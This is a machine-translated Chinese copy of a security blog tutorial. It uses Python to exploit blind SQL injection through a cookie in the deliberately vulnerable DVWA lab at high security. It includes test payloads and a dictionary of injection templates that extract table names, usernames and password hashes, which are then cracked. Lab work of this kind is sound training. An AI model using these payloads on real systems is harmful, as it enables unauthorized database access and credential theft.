





# 打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)— StackZero

> 原文：<https://infosecwriteups.com/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01?source=collection_archive---------1----------------------->


> 本文原载于[https://www . stack zero . net/blind-SQL-injection-dvwa-high-python/](https://www.stackzero.net/blind-sql-injection-dvwa-high-python/)

嘿黑客们！
在这篇文章中，我们将使用 Python 通过使用一个高安全级别的盲 SQL 注入攻击来利用 [DVWA](https://github.com/digininja/DVWA) 。

您可能会从以前的文章或者您的背景中想起什么是盲目的 SQL 注入。
无论如何，提醒一下， **SQL 注入**这是一种利用服务器输入管理不当的攻击。
该缺陷允许黑客注入 SQL 有效载荷，这可能会使他完全控制数据库(这也取决于数据库用户权限)。

**盲目 SQL 注入**只不过是一种 SQL 注入攻击，攻击者看不到输出结果，但必须从应用程序行为中进行推断。

我知道这听起来很复杂，但事实并非如此。在这篇文章中，我将许多事情视为理所当然，所以如果你觉得这篇阅读太难，我邀请你阅读我以前的帖子。

# 带内 SQL 注入

*   [SQL 注入:您需要了解的内容](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   [通过黑客攻击易受攻击的应用程序，在实践中学习 SQL 注入！](https://medium.com/bugbountywriteup/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec)
*   [如何用 SQL 注入攻击进行黑客攻击！DVWA 低安全性](https://medium.com/bugbountywriteup/how-to-hack-with-sql-injection-attacks-dvwa-low-security-stackzero-9286d7d0dfd1)
*   [黑客用 SQL 注入攻击！DVWA 中等安全性](/hack-with-sql-injection-attacks-dvwa-medium-security-stackzero-d4af0a9a5f9)
*   [黑客用 SQL 注入攻击！DVWA 高安全性](/hack-with-sql-injection-attacks-dvwa-high-security-stackzero-713638840515)

# 盲人 SQL 注入

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 3 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-3-stackzero-911545003f01)

一如既往，我假设你正在一台 [Kali Linux](https://medium.com/@stackzero/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes-stackzero-37fb019261cb) 机器上工作(相反，可能会有一些小的不同)。

在开始调整我们的脚本之前，我们需要一点侦察，所以让我们打开我们的 [DVWA](https://github.com/digininja/DVWA) 机器(像往常一样，我使用的是由 [TryHackMe](https://tryhackme.com/room/dvwa) 提供的那台)。

我也要记住你，整个系列的代码都在我的 [GitHub 库](https://github.com/StackZeroSec/dvwa/tree/main/blind_sqli)里。

我只想告诉你，我知道这不是一个容易的话题。
但我也相信，获得深层知识的最佳方式是:

*   **慢慢读这篇文章和之前的文章**
*   **重复我们正在做的事情，也许试图预测下一步**
*   **拿自己的实验来说！编辑代码，自己试试。**

这就是**黑客心态**！而让一切从容不迫，没有杂念，你的结果会很惊人！

# 第 0 步:侦察

在开始之前，让我们像过去一样看一下 [DVWA](https://github.com/digininja/DVWA) Blind SQLi 部分。

因此，如果您使用的是 [TryHackMe](https://tryhackme.com/room/dvwa) 机器，请配置您的 VPN，然后使用以下凭证登录:

*   用户名:**管理员**
*   密码:**密码**


现在，您可以转到设置，将安全级别设置为高。


将安全性设置为高之后，在编写 python 脚本之前，我们可以进入 DVWA 的盲 SQL 注入部分。

我们可以看到一个链接，上面写着“点击这里更改你的 ID”

点击这里就是结果。



在继续之前，我们需要更多关于输入表单的信息，所以让我们检查一下代码(在 Firefox 中右键单击+ Inspect)。

这是我们应该在浏览器底部看到的内容:



这就是我们在这两个简单步骤后所知道的:

*   它使用 [POST](https://en.wikipedia.org/wiki/POST_(HTTP)) 方法
*   它具有指向当前页面的动作
*   它传递一个以 id 为名称的参数。

我们很快就会发现，这并不完全是我们要找的信息，回想起来，这可能被认为是多余的。但是我们不能先验地知道，所以收集尽可能多的信息是一个好习惯。

现在我们可以尝试提交值*“1”*并查看结果。



它看起来非常类似于我们在前面的级别(中等)中看到的内容。

# 查找 SQLi 易受攻击的输入

我喜欢 [DVWA](https://github.com/digininja/DVWA) 因为每一关都教我们新的概念，这次我们可以学到的教训是，每一个领域都可能是脆弱的，饼干也不例外。
尝试查看 cookie(Firefox 中的 SHIFT + F9 ),您应该会看到类似以下内容:



这就是应用程序检索输入 id 的方式，这也是我们在盲 SQL 注入攻击中要利用的字段。

# 步骤 1:测试盲 SQLi 漏洞

到了这一步，我们想测试一下这个领域是否容易受到 SQL 注入的攻击。
第一次测试将是手动的，我们将把以下值插入到 cookies 中。

```
1' and 1=2 #
```

我们可以通过打开浏览器的 cookies 部分(Firefox 上的 SHIFT + F9 ),然后用我们的有效载荷替换这个值，如下图所示。



此后，该页面将无错误地输出以下文本:

```
User ID is MISSING from the database.
```

我们可以通过插入以下有效载荷来进行反证:

```
1' and 1=1 #
```

同样，我们没有错误，但这一次输出将是:

```
User ID exists in the database.
```

所以很明显，我们找到了易受攻击的字段，我们可以准备 python 脚本来攻击应用程序(没有错误，我们可以控制布尔输出)。

# 步骤 2:利用隐蔽的 SQLi 漏洞

没有那么多行代码需要编写，因为我们几乎已经完成了前两个级别的全部工作:

*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 1 部分)](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)
*   [打嗝组曲？不用了，谢谢！用 Python 实现 DVWA 中的盲 SQLi(第 2 部分)](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)

所以让我们讨论一下我们必须做的改变。

特别是，所有的更改都在 *get_query_result* 函数中，这里我们需要:

1.  用有效负载设置“id”cookie
2.  使用 GET HTTP 方法发送请求(我们看到的 POST 只是被服务器用来设置 cookie)。

没有更多的变化，事实上，主要方法和查询与我们在[盲目 SQL 注入低安全性](/how-i-exploited-blind-sqli-without-using-any-tool-stackzero-396e831ecbdf)中使用的相同。

根据前面的文章，我们需要的唯一库是:

*   [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/) :负责解析 HTML 的库。
*   [请求](https://requests.readthedocs.io/en/latest/):帮助发送 HTTP 请求的库。

您可以通过在终端上键入以下命令来安装它们:

```
pip install beautifulsoup4 requests
```

# 查询词典

在这种情况下，我将采取与脚本相同的方法进入[中等安全级别](/burp-suite-no-thanks-blind-sqli-in-dvwa-with-python-part-2-stackzero-a5c0acf431dc)，这样我们将把所有的查询保存在一个字典中。
这是理解如何通过这一关最关键的部分，所以这里是我们的字典:

```
queries = {
    "db_length": "1' AND LENGTH(DATABASE()) = {} #",
    "db_name": "1' AND SUBSTRING(DATABASE(), {}, 1) = '{}' #",
    "n_tables": "1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base table' AND table_schema='{}')='{}' #",
    "tables": "1' AND SUBSTR((SELECT table_name from information_schema.tables WHERE table_type='base table' AND table_schema='{}' {} LIMIT 1),{},1)='{}' #",
    "n_columns": "1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='{}')='{}' #",
    "columns": "1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='{}' LIMIT {}, 1),{},1)='{}' #",
    "users": "1' AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)='{}' #",
    "pwd_len": "1' AND LENGTH((SELECT {} FROM {} WHERE {}='{}'))={} #",
    "pwd": "1' AND SUBSTR((SELECT {} FROM {} WHERE {}='{}' LIMIT 1), {}, 1)='{}' #"
}
```

因为我们将查询作为 cookie 传递，所以不需要像在第一级中那样编码 hashtag。

# 编辑获取查询结果函数

我们要做的最后一个重要改变是对 get_query_result 函数的改变，不同于我们在上一级中看到的，我们必须使用 [HTTP GET](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) 请求，并将 id 作为 cookie 传递。
如你所见，这非常简单:

```
def get_query_result(s, sqli_blind_url, query, *args):
    try:
        concrete_query = query.format(*args)
        response = s.get(sqli_blind_url, cookies={"id": concrete_query})
        parser = DVWASQLiResponseParser(response)

        return parser.check_presence("exist")
    except AttributeError as e:
        return False
```

现在我们终于准备好运行脚本了！

# 第 4 步:运行脚本

我们终于到了练习的末尾，我们需要记住的最后一件事是将 cookie 安全性更改为 HIGH，我们可以在主函数中使用一行代码来实现这一点:

```
s.security = SecurityLevel.HIGH
```

我们完了。
我们只能通过在终端上键入以下命令来运行脚本:

```
python main.py
```

这就是结果！


这太神奇了，像往常一样，我们可以移动到[破解站](https://crackstation.net/)并破解检索到的[哈希](https://en.wikipedia.org/wiki/Hash_function)密码:


# 代码概述

就这些，但是在下结论之前，让我们看一下完整的代码:

# 结论

我们已经看到，在 python 中利用 DVWA 的盲 SQL 注入，从低到高的难度，并不是那么微不足道的。但是我认为这是非常有教育意义的，也许，从一开始就跟随所有的 SQL 注入系列，可以给攻击一个更深的知识。

我们还看到，如果我们需要适应不同的情况，在代码组织中投入一点精力可以节省大量时间。

我希望你喜欢这篇文章，如果你想看更多这样的文章，你可以关注我的博客和我的社交网站。

回头见！

*你可以通过下面的链接注册，每月只需 5 美元就可以获得所有的媒体报道:*

[](https://medium.com/membership/@stackzero) [## 通过我的推荐链接加入 Medium-stack zero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/membership/@stackzero) 

*原载于 2022 年 10 月 28 日*[*【https://www.stackzero.net】*](https://www.stackzero.net/blind-sql-injection-dvwa-high-python/)*。*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！